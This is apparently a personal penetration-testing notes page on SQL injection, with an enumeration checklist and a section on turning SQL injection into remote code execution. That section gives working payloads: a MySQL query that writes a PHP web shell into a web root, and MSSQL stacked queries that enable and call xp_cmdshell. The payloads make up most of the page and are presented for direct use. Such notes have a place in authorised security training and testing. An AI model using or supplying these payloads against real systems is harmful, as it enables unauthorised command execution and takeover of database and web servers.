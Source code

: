 # SQL injection

### The strategy:&#x20;

* [ ] Depending on database try shells
* [ ] Enumerate databases
* [ ] Enumerate tables
* [ ] ENumerate columns&#x20;
* [ ] money
* [ ] Do this if its an unknown CMS and you see a parameter that the user can type. You need to get better at this Fabian.

### Different ways to turn SQL injection to RCE:

```
##MYSQL##
' UNION SELECT ("<?php echo passthru($_GET['cmd']);") INTO OUTFILE 'C:/xampp/htdocs/command.php'  -- -' 

or 
##MSSQL##
 ';exec master..xp_cmdshell 'whoami'; --
 
Try enabling it like:
';EXEC sp_configure 'show advanced options', 1; -- 
';RECONFIGURE; -- 
';EXEC sp_configure 'xp_cmdshell', 1; --
';RECONFIGURE; --
```

Here is a great resource for SQLinjection:

{% embed url="https://guide.offsecnewbie.com/5-sql" %}
